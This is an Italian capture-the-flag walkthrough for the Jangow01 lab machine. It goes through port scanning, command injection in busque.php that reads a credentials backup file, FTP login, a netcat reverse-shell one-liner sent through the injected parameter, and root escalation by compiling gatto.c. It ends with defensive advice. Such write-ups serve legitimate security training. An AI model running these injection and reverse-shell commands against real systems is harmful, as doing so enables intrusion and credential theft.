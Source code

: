 
# README - Guida alla CTF: Macchina Jangow01

Questa guida spiega passo per passo come completare la CTF sulla macchina Jangow01, partendo dall'accesso iniziale fino all'escalation dei privilegi e al recupero della flag finale.

---

## **Passaggi**

### **1. Ricognizione Iniziale**

1. **Pingare la macchina target** per verificare che sia attiva:
   ```bash
   ping 192.168.56.118
   ```
   ![Ping della macchina](./ping_machinetarget.png)

2. **Scansionare le porte con Nmap** per identificare i servizi attivi:
   ```bash
   sudo nmap -sC -sV -O -p- 192.168.56.118
   ```
   ![Risultato Nmap](./nmap_results.png)
   - Porte trovate aperte:
     - **21/tcp**: FTP (vsftpd 3.0.3)
     - **80/tcp**: HTTP (Apache 2.4.18)

### **2. Enumerazione dei Servizi**

#### HTTP
1. Aprire il browser e visitare `http://192.168.56.118/site`.
   ![Homepage HTTP](./homepage_http.png)

2. Cercare file o directory interessanti. Notare `busque.php` e utilizzare il parametro `buscar` per eseguire comandi:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=ls
   ```
   ![Command Injection](./command_injection_ls.png)

3. Esplorare il filesystem tramite comandi come `pwd` e `ls`. Identificare file sensibili come `.backup`:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=cat /var/www/html/.backup
   ```
   Output:
   ```php
   $servername = "localhost";
   $database = "jangow01";
   $username = "jangow01";
   $password = "abygurL09";
   ```
   ![Contenuto del file backup](./backup_file_content.png)

### **3. Accesso Iniziale**

#### FTP
1. Collegarsi al server FTP utilizzando le credenziali trovate:
   ```bash
   ftp 192.168.56.118
   Name: jangow01
   Password: abygurL09
   ```
   ![Connessione FTP](./ftp_connection.png)

2. Esplorare il server FTP per cercare file utili.

#### Reverse Shell
1. Preparare Netcat per ricevere una connessione:
   ```bash
   nc -lvnp 443
   ```
   ![Preparazione Netcat](./netcat_ready.png)

2. Utilizzare il parametro `buscar` per caricare una reverse shell:
   ```bash
   http://192.168.56.118/site/busque.php?buscar=mkfifo /tmp/s; nc 192.168.56.103 443 0</tmp/s | /bin/bash >/tmp/s 2>&1; rm /tmp/s
   ```
   ![Reverse Shell HTTP](./reverse_shell_command.png)

3. Una volta stabilita la connessione, si otterrà accesso come utente `www-data`.
   ![Shell www-data](./www_data_shell.png)

### **4. Escalation dei Privilegi**

1. **Stabilizzare la shell**:
   ```bash
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm
   ```
   ![Shell stabilizzata](./stable_shell.png)

2. **Cambiare utente**:
   Utilizzare la password trovata per accedere come `jangow01`:
   ```bash
   su jangow01
   Password: abygurL09
   ```
   ![Cambio utente](./user_switch.png)

3. **Escalare i privilegi a root**:
   - Nella directory `/home/jangow01`, trovare ed eseguire il file `gatto.c`:
     ```bash
     gcc gatto.c -o shell2
     ./shell2
     ```
     ![Compilazione ed esecuzione](./compile_execute.png)
   - Verificare di essere root:
     ```bash
     whoami
     root
     ```
     ![Accesso root](./root_access.png)

### **5. Recuperare la Flag Finale**
1. Accedere alla directory `/root`:
   ```bash
   cd /root
   ```
   ![Accesso directory root](./access_root_directory.png)

2. Leggere il contenuto di `proof.txt`:
   ```bash
   cat proof.txt
   ```
   Output:
   ```
   da39a3ee5e6b4b0d3255bfef95601890afd80709
   ```
   ![Flag Finale](./final_flag.png)

---

## **Note Importanti**

- Assicurarsi di proteggere file sensibili come `.backup`.
- Aggiornare i servizi e il kernel della macchina per evitare exploit noti.
- Sanitizzare tutti i parametri di input per prevenire vulnerabilità di injection.

Seguendo questa guida passo per passo, è possibile replicare l'intera procedura per completare la CTF sulla macchina Jangow01. Buona fortuna! 🚀

